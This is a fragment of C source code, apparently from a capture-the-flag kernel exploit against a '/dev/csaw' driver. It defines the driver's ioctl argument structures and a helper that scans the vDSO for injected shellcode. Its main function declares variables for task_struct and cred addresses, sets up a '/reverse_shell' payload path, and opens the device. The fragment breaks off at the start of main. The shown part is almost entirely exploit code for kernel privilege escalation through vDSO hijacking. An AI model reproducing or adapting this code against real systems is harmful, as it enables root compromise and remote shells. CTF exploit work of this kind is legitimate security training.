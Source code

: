 ```
    size_t buf_size;
    int id;
};

struct shrink_channel_args{
    int id;
    size_t size;
};

struct read_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct write_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct seek_channel_args{
    int id;
    loff_t index;
    int whence;
};

size_t check_have_writed(char * shellcode)
{
    size_t vdso_usr, ret;
    vdso_usr = getauxval(AT_SYSINFO_EHDR);
    printf("[+] vdso_usr:0x%lx\n", vdso_usr);
    ret = memmem(vdso_usr, 0x1000, shellcode, strlen(shellcode));
    if(ret){
        return ret;
    }
    return 0;
}

int main(int argc, char *argv[], char *envp[])
{
    struct alloc_channel_args alloc_channel;
    struct shrink_channel_args shrink_channel;
    struct read_channel_args read_channel;
    struct write_channel_args write_channel;
    struct seek_channel_args seek_channel;

    char *buf = malloc(0x1000);
    char pid[1];
    size_t addr;
    size_t search;
    size_t cred, real_cred, task_struct;
    size_t vdso_kernel, vdso_usr;
    char *comm = "gettimeofday\0";

    char payload[] = "/reverse_shell\0";

    int fd = open("/dev/csaw", O_RDWR);
    if(fd < 0){
        printf("[-] open dev error!\n");
        return 0;
    }
    alloc_channel.id = -1;
```